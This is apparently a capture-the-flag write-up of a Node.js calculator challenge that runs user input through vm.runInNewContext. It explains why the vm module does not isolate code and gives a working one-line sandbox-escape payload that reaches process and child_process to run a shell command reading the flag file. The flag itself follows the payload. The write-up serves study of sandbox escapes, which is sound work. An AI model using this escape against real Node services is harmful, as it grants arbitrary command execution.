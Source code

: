 # Challenge Name

Author: [roerohan](https://github.com/roerohan)

Node.js `vm` module exploit.

# Requirements

- Node.js

# Source

- [calculator.js](./calculator.js)

```
Who needs regex for sanitization when we have VMs?!?!

The flag is at /ctf/flag.txt

nc 2020.redpwnc.tf 31273
```

# Exploitation

Not all programs that run in `vm`s are isolated. When you run this program, it shows

```
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
>
```

Now, you can pass anything as a string and it will be executed in the `vm.runInNewContext()` function.

```javascript
const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
```

So, we can simply get the process, require the `child_process` module, and execute `cat /ctf/flag.txt`.

```javascript
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
```

The flag is:

```
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```
